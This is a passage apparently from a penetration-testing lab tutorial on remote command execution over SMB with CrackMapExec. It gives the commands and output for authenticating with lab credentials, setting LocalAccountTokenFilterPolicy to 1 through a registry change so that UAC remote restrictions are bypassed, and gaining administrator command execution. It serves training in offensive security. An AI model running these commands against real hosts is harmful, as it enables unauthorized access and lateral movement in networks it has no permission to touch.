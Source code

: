 ***

## Command Execution as non-RID 500 Account

In the above command, the local user `localadmin` is in the `Administrators` group, yet cannot execute the remote command:

### **Execute Command as localadmin**

```shell-session
$ crackmapexec smb 10.129.204.133 -u localadmin -p Password99! --local-auth -x whoami

SMB         10.129.204.133  445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:MS01) (signing:False) (SMBv1:False)
SMB         10.129.204.133  445    MS01             [+] MS01\localadmin:Password99!
```

This means that the UAC is enabled. If that's the case, we won't receive the `(Pwn3d!)` message even if the account is an administrator. If we want to revert this setting, we can set the `LocalAccountTokenFilterPolicy` to 1.

### **Changing LocalAccountTokenFilterPolicy**

```shell-session
$ crackmapexec smb 10.129.204.133 -u Administrator -p 'AnotherC0mpl3xP4$$' --local-auth -x "reg add 
HKLM\SOFTWARE\MICROSOFT\WINDOWS\CURRENTVERSION\POLICIES\SYSTEM /V LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"

SMB         10.129.204.133  445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:MS01) (signing:False) (SMBv1:False)
SMB         10.129.204.133  445    MS01             [+] MS01\Administrator:AnotherC0mpl3xP4$$ (Pwn3d!)
SMB         10.129.204.133  445    MS01             [+] Executed command 
SMB         10.129.204.133  445    MS01             The operation completed successfully.
```

```shell-session
$ crackmapexec smb 10.129.204.133 -u localadmin -p Password99! --local-auth -x whoami

SMB         10.129.204.133  445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:MS01) (signing:False) (SMBv1:False)
SMB         10.129.204.133  445    MS01             [+] MS01\localadmin:Password99! (Pwn3d!)
SMB         10.129.204.133  445    MS01             [+] Executed command 
SMB         10.129.204.133  445    MS01             ms01\localadmin
```

## Command Execution as Domain Account

The `LocalAccountTokenFilterPolicy` only applies to local accounts. If we got a domain user and it's part of the administrators' group, we could execute the command even with the UAC setting. In this scenario, the account `INLANEFREIGHT\robert` is a member of the administrators' groups, meaning it can execute commands even if UAC is enabled.

